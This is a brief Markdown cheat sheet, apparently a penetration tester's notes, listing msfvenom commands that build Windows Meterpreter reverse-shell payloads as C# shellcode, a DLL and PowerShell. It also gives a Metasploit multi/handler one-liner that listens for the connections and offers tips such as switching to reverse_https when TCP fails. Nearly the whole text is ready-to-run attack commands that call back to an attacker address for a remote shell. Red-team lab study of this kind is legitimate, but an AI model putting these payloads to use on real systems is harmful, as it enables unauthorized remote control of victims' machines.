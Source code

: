 # Msfvenom

* C Sharp Meterpreter Shellcode
  * Always use `windows/x64/meterpreter/reverse_https` if tcp payload doesn't work!!
  * Use `windows/shell_reverse_tcp` for non-meterpreter shell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
```

* Metasploit's Exploit Handler (One-liner)

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

<details>

<summary>Other Shellcode</summary>

* DLL

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=443 EXITFUNC=thread -f dll -o met.dll
```

* Powershell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
```

</details>

